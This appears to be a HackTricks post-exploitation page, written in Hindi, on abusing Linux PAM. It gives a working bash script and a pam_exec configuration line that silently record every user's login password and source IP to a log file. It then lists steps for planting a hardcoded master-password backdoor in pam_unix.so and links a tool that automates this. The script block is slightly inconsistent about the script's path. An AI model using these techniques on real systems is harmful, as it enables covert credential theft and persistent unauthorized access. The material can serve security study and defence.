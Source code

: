 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM के साथ लॉगिन पासवर्ड स्निफ़ करना

आइए एक PAM मॉड्यूल कॉन्फ़िगर करें जो प्रत्येक उपयोगकर्ता द्वारा लॉगिन करने के लिए उपयोग किए जाने वाले पासवर्ड को लॉग करता है। यदि आप नहीं जानते कि PAM क्या है, तो देखें:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**अधिक विवरण के लिए [मूल पोस्ट](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) देखें**। यह केवल एक सारांश है:

**तकनीक का अवलोकन:**
प्लग करने योग्य प्रमाणीकरण मॉड्यूल (PAM) यूनिक्स-आधारित सिस्टम पर प्रमाणीकरण प्रबंधन में लचीलापन प्रदान करते हैं। वे लॉगिन प्रक्रियाओं को अनुकूलित करके सुरक्षा बढ़ा सकते हैं, लेकिन यदि गलत तरीके से उपयोग किया जाए तो जोखिम भी पैदा कर सकते हैं। यह सारांश PAM का उपयोग करके लॉगिन क्रेडेंशियल कैप्चर करने की एक तकनीक को रेखांकित करता है, साथ ही शमन रणनीतियों के साथ।

**क्रेडेंशियल कैप्चर करना:**

- एक बैश स्क्रिप्ट जिसका नाम `toomanysecrets.sh` है, लॉगिन प्रयासों को लॉग करने के लिए तैयार की गई है, जो तारीख, उपयोगकर्ता नाम (`$PAM_USER`), पासवर्ड (stdin के माध्यम से), और दूरस्थ होस्ट IP (`$PAM_RHOST`) को `/var/log/toomanysecrets.log` में कैप्चर करती है।
- स्क्रिप्ट को निष्पादन योग्य बनाया गया है और PAM कॉन्फ़िगरेशन (`common-auth`) में `pam_exec.so` मॉड्यूल का उपयोग करके एकीकृत किया गया है, जिसमें चुपचाप चलाने और स्क्रिप्ट को प्रमाणीकरण टोकन उजागर करने के विकल्प हैं।
- यह दृष्टिकोण दिखाता है कि कैसे एक समझौता किया गया Linux होस्ट क्रेडेंशियल्स को चुपचाप लॉग करने के लिए शोषित किया जा सकता है।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**अधिक जानकारी के लिए [मूल पोस्ट](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) देखें**। यह केवल एक सारांश है:

Pluggable Authentication Module (PAM) एक प्रणाली है जो Linux के तहत उपयोगकर्ता प्रमाणीकरण के लिए उपयोग की जाती है। यह तीन मुख्य अवधारणाओं पर काम करती है: **उपयोगकर्ता नाम**, **पासवर्ड**, और **सेवा**। प्रत्येक सेवा के लिए कॉन्फ़िगरेशन फ़ाइलें `/etc/pam.d/` निर्देशिका में स्थित हैं, जहाँ साझा पुस्तकालय प्रमाणीकरण को संभालते हैं।

**उद्देश्य**: PAM को संशोधित करना ताकि एक विशिष्ट पासवर्ड के साथ प्रमाणीकरण की अनुमति दी जा सके, वास्तविक उपयोगकर्ता पासवर्ड को बायपास करते हुए। यह विशेष रूप से `common-auth` फ़ाइल द्वारा उपयोग किए जाने वाले `pam_unix.so` साझा पुस्तकालय पर केंद्रित है, जो पासवर्ड सत्यापन के लिए लगभग सभी सेवाओं द्वारा शामिल किया जाता है।

### `pam_unix.so` को संशोधित करने के चरण:

1. **common-auth फ़ाइल में प्रमाणीकरण निर्देश को खोजें**:
- वह पंक्ति जो उपयोगकर्ता के पासवर्ड की जांच के लिए `pam_unix.so` को कॉल करती है।
2. **स्रोत कोड को संशोधित करें**:
- `pam_unix_auth.c` स्रोत फ़ाइल में एक शर्तीय कथन जोड़ें जो पूर्वनिर्धारित पासवर्ड का उपयोग करने पर पहुंच प्रदान करता है, अन्यथा यह सामान्य प्रमाणीकरण प्रक्रिया के साथ आगे बढ़ता है।
3. **संशोधित `pam_unix.so` पुस्तकालय को उचित निर्देशिका में पुनः संकलित और प्रतिस्थापित करें**।
4. **परीक्षण**:
- विभिन्न सेवाओं (लॉगिन, ssh, sudo, su, स्क्रीनसेवर) में पूर्वनिर्धारित पासवर्ड के साथ पहुंच दी जाती है, जबकि सामान्य प्रमाणीकरण प्रक्रियाएँ अप्रभावित रहती हैं।

> [!NOTE]
> आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं।

{{#include ../../banners/hacktricks-training.md}}
